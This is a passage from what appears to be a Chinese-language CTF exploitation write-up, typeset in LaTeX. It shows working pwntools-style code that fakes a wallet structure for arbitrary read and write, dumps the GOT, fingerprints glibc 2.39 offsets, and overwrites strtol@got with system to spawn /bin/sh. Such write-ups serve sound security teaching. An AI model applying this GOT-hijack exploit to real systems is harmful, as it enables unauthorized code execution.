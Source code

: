 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
\texttt{P4} 就是「ledger 被毒化成 \texttt{\&\allowbreak{}slots{[}0{]}}」的那個
wallet，所以之後 \texttt{Deposit(6,\allowbreak{}\ \allowbreak{}...)} 寫的其實是 slot
表本身，\texttt{Withdraw(6,\allowbreak{}\ \allowbreak{}...)} 讀的是 slot 表。

\paragraph{8.4 Phase 3：假 wallet →
任意讀寫}\label{phase-3ux5047-wallet-ux4efbux610fux8b80ux5beb}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{deposit(POISON\_SLOT, p64(GOT) }\OperatorTok{+}\NormalTok{ p64(}\BaseNTok{0x70}\NormalTok{) }\OperatorTok{+}\NormalTok{ p64(FAKE\_WALLET) }\OperatorTok{+}\NormalTok{ p64(}\DecValTok{0}\NormalTok{))}
\CommentTok{\#  slots[0] = 0x404000 (GOT)   → fake{-}\textgreater{}ledger}
\CommentTok{\#  slots[1] = 0x70             → fake{-}\textgreater{}size}
\CommentTok{\#  slots[2] = 0x4040a8         → 指向假 wallet 自己，同時 fake{-}\textgreater{}active 非 0}
\NormalTok{got }\OperatorTok{=}\NormalTok{ withdraw\_n(FAKE\_INDEX, }\BaseNTok{0x70}\NormalTok{)     }\CommentTok{\# 任意讀：dump 整個 GOT}
\end{Highlighting}
\end{Shaded}

接著做 \textbf{libc 指紋比對}：把 GOT 裡的每個函式位址減掉算出來的 libc
base， 和 Ubuntu 24.04 glibc 2.39 的已知 offset 逐一比較：

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
free   +0xadd20      puts    +0x87bd0     write   +0x11c560   read   +0x11ba50
fgets  +0x85b20      calloc  +0xae790     strtol  +0x543c0    malloc +0xad640
setvbuf+0x88540
\end{Verbatim}

遠端實測\textbf{全部吻合} → 確定遠端就是同一個
libc，\texttt{system\ \allowbreak{}=\ \allowbreak{}+0x58740} 可以放心用。

\paragraph{8.5 Phase 4：GOT hijack →
shell}\label{phase-4got-hijack-shell}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{deposit(POISON\_SLOT, p64(STRTOL\_GOT) }\OperatorTok{+}\NormalTok{ p64(}\DecValTok{8}\NormalTok{) }\OperatorTok{+}\NormalTok{ p64(FAKE\_WALLET) }\OperatorTok{+}\NormalTok{ p64(}\DecValTok{0}\NormalTok{))}
\CommentTok{\#  重新指定：目標 = 0x404040 (strtol@got)，長度 = 8}
\NormalTok{deposit(FAKE\_INDEX, p64(system))       }\CommentTok{\# ✶ 任意寫：strtol@got = system}
\NormalTok{io.sendline(}\StringTok{b\textquotesingle{}/bin/sh\textquotesingle{}}\NormalTok{)}
\CommentTok{\#  選單會執行 fgets(buf,0x20); strtol(buf,NULL,10)}
\CommentTok{\#  但 GOT 已經換成 system，rdi = buf = "/bin/sh" → system("/bin/sh") → shell！}
\end{Highlighting}
\end{Shaded}
\end{document}
